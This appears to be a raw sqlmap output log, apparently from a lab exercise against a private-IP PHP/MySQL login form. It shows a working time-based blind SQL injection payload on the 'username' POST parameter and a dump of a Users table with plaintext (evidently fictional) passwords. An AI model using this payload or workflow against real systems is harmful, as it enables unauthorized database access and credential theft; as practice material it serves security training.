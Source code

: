 ```output
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:05:25 /2024-12-17/

[22:05:26] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:05:26] [INFO] resuming back-end DBMS 'mysql' 
[22:05:26] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=cmskdho7mi6...omrtvd1ld6'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 4492 FROM (SELECT(SLEEP(5)))juSH)-- mLUu&password=password&submit=
---
[22:05:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP, Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
[22:05:27] [INFO] fetching columns for table 'Users' in database 'Webapp'
[22:05:27] [INFO] resumed: 3
[22:05:27] [INFO] resumed: id
[22:05:27] [INFO] resumed: username
[22:05:27] [INFO] resumed: password
[22:05:27] [INFO] fetching entries for table 'Users' in database 'Webapp'
[22:05:27] [INFO] fetching number of entries for table 'Users' in database 'Webapp'
[22:05:27] [INFO] resumed: 5
[22:05:27] [INFO] resumed: 1
[22:05:27] [INFO] resumed: iwilltakethering
[22:05:27] [INFO] resumed: frodo
[22:05:27] [INFO] resumed: 2
[22:05:27] [INFO] resumed: MyPreciousR00t
[22:05:27] [INFO] resumed: smeagol
[22:05:27] [INFO] resumed: 3
[22:05:27] [INFO] resumed: AndMySword
[22:05:27] [INFO] resumed: aragorn
[22:05:27] [INFO] resumed: 4
[22:05:27] [INFO] resumed: AndMyBow
[22:05:27] [INFO] resumed: legolas
[22:05:27] [INFO] resumed: 5
[22:05:27] [INFO] resumed: AndMyAxe
[22:05:27] [INFO] resumed: gimli
Database: Webapp
Table: Users
[5 entries]
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | iwilltakethering | frodo    |
| 2  | MyPreciousR00t   | smeagol  |
| 3  | AndMySword       | aragorn  |
| 4  | AndMyBow         | legolas  |
| 5  | AndMyAxe         | gimli    |
+----+------------------+----------+

[22:05:27] [INFO] table 'Webapp.Users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.38.1.117/dump/Webapp/Users.csv'
```